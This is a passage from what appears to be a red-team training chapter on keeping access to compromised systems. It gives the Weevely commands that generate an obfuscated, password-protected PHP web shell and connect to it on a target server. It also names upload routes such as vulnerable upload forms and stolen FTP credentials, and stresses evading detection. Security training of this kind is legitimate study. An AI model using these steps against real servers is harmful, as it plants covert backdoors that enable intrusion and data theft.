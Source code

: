 # Chapter 12: Maintaining Access

Once you've successfully gained access to a target system, maintaining that access becomes a critical concern for red teamers. This chapter explores sophisticated tools for creating backdoors, managing web shells, and establishing persistent access mechanisms that can withstand system reboots or defense measures.

## Introduction to Persistence Mechanisms

In red team operations, maintaining access is often more challenging than the initial compromise. When establishing persistence, you need to consider:

- Stealth (avoiding detection by security tools and administrators)
- Reliability (ensuring consistent access despite system changes)
- Resilience (implementing multiple fallback mechanisms)
- Authentication (preventing unauthorized access to your backdoors)

This chapter explores four powerful tools in the red teamer's arsenal for maintaining access across different platforms and scenarios.

## Weevely: Web Shell Management

Weevely is a sophisticated weaponized PHP web shell designed for post-exploitation tasks. Unlike simple web shells, Weevely provides an interactive shell-like interface with over 30 modules for post-exploitation activities.

### Basic Usage

To generate a web shell with Weevely:

```bash
weevely generate <password> <path/to/output/shell.php>
```

For example:

```bash
weevely generate s3cr3tP4ssw0rd /tmp/backdoor.php
```

This creates a highly obfuscated PHP file that can be uploaded to the target web server through vulnerable file upload mechanisms, compromised FTP credentials, or other means.

Once uploaded, connect to your shell:

```bash
weevely http://target.com/uploads/backdoor.php s3cr3tP4ssw0rd
```

### Stealth Configuration

Weevely excels at evading detection through several techniques:

#### 1. Obfuscated Communications
